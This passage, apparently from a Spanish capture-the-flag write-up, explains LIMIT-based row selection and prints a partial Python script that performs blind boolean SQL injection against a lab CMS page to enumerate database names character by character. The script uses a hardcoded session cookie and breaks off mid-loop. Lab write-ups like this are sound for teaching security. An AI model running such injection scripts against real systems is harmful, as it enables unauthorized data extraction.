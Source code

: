 ![Write-up Image](images/Screenshot_19.png)

Ahora bien, si utilizamos `limit 0,1`, nos mostrará el primer resultado, si utilizamos `limit 1,1` nos mostrará el segundo resultado, si utilizamos `limit 2,1` nos mostrará el tercer resultado... y así.

Después de un rato de prueba y error, tenemos nuestro script para enumerar las bases de datos listo.
```python
#!/usr/bin/python3
import requests
import string
import signal
import time
from pwn import *

BASE_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist' or substring((select schema_name from information_schema.schemata limit <OFFSET>,1),<POSITION>,1)='<REPLACE>"
CHECK_VULN_URL = "http://imf.local/imfadministrator/cms.php?pagename=disavowlist%27%20and%20%271%27=%271"
COOKIES = {
    'PHPSESSID': '3gt7u1sgr34ec45qdvpctjrbn6' # Replace with your admin phpsessid
}
DISAVOW_LENGTH = 450

def def_handler(var1,var2):
    print("[i] Exiting...")
    exit(0)

def check_if_vuln():
    return len(requests.get(CHECK_VULN_URL, cookies=COOKIES).text) == DISAVOW_LENGTH

def sqli():
    if check_if_vuln() is not True:
        log.error("Not vulnerable")
        exit(1)

    log.info("Target is vulnerable")

    charset = string.ascii_lowercase + string.digits + "_"
    databases = []
    for offset in range(0,10): # There shouldn't be so many databases, you can tweak this
        database_name = ""
        p1 = log.progress(str(offset) + " Database name")
        for position in range(1,50): # A database name shouldn't have a long name, you can tweak this
            for char in charset:
                r = requests.get(BASE_URL.replace("<OFFSET>", str(offset)).replace("<POSITION>", str(position)).replace("<REPLACE>",char), cookies=COOKIES)
                if len(r.text) != DISAVOW_LENGTH:
                    database_name += char
```
